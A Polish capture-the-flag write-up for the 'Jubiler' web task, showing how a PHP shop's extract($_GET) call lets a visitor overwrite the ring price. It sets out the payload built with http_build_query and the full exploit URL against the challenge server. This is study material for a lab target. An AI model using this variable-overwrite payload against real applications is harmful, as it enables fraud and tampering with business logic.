

# Różdżka chaosu, Jubiler, web

## Opis
"Pierścienie na wystawie wyglądają pięknie, ale nie są tanie..."

## Rozwiązanie

Odwiedzając sklep jubilera widzimy, że pierścienie kosztują 500złota (a my mamy zero).
Interesujący fragment kodu zadania znajduje się w pliku [jewellershop.php](./jewellershop.php)

Jeśli w jakiś sposób zmienilibyśmy cenę pierścienia na zero to poniższy warunek nie byłby spełniony i kupilibyśmy pierścień za zero złota:
```php
if ($player -> credits < $ringPrice)
{
    error(NO_MONEY);
}
```

Możemy to zrobić za pomocą funkcji `extract`, która wypakuje nam zmienne z `$_GET` do przestrzeni globalnej.
```php
extract($_GET);
```

Dzięki temu możemy nadpisać zmienną `$ringPrice`. Problemem jest jeszcze warunek sprawdzający wynik działania funkcji `craft`. Musimy dostarczyć jej poprawnych wartości, aby zapobiec ustawieniu zmiennej `$closed` na `True`, czyli odwołania `$$item['material']` oraz `$$item['inscription']` muszą być poprawne. W celu budowania payloadu wykorzystamy funkcję `http_build_query`, która znacznie uprości całą sprawę:

Czyli musimy:
- ustawić parametr GET `craft`
- nadpisać `$ringPrice`
- stworzyć zmienną, która będzie tablicą asocjacyjną z kluczami: `material` oraz `inscription`

Budujemy parametry za pomocą wcześniej wspomnianej funkcji:
```php
http_build_query(array('craft' => 'asdf', 'item' => 'i', 'i' => array('material' => 'sssss', 'inscription' => 'dddd'), 'ringPrice' => 0));
```
output:
```
craft=asdf&item=i&i%5Bmaterial%5D=sssss&i%5Binscription%5D=dddd&ringPrice=0
```
Doklejamy to do: [https://vallheru.rozdzka.securing.pl/jewellershop.php?buy=1](https://vallheru.rozdzka.securing.pl/jewellershop.php?buy=1) otrzymując to: https://vallheru.rozdzka.securing.pl/jewellershop.php?buy=1&craft=asdf&item=i&i%5Bmaterial%5D=sssss&i%5Binscription%5D=dddd&ringPrice=0

Wchodzimy pod finalny adres i zgarniamy flagę:




